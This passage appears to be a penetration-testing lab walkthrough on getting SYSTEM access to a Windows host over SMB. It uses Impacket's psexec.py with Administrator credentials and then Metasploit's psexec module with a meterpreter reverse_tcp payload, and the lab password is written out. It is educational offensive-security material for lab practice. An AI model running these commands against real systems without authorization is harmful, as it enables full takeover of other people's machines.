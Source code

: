 psexec is a tool that allows you to authenticate with a system remotely via SMB with legitimate credentials.

Specify the user that we would like to authenticate with. 

```
python3 psexec.py Administrator@10.0.31.252
```

It's going to request the shares. Find a writable share, and it's then going to upload a payload and then provide us with an elevated command prompt session here because we logged in with the administrator account.

```
C:\Windows\system32> whoami
nt authority\system
```

`nt authority\system` is the highest level of privileges available on a Windows system.

We've been able to gain access via SMB, and this is our second attack vector that has provided us with access to the target system, one of which was SSH. And in the case of SMB, we've been able to authenticate with the Administrator user account, consequently giving us elevated privileges on the target system.

That's how to utilize the psexec Python script.

The Metasploit Framework module also has a psexec module.

```
msfconsole
search psexec
use 4
```

This also requires credentials.

```
set payload windows/x64/meterpreter/reverse_tcp
```

That will provide us with a 64-bit meterpreter session.

```
show options
set RHOSTS 10.0.31.252
set SMBUser Administrator
set SMBPass vagrant
exploit
```

And this should provide us with an elevated meterpreter session.

```
meterpreter > sysinfo
meterpreter > getuid
```

Enumerate our privileges.

```
meterpreter > getprivs
```
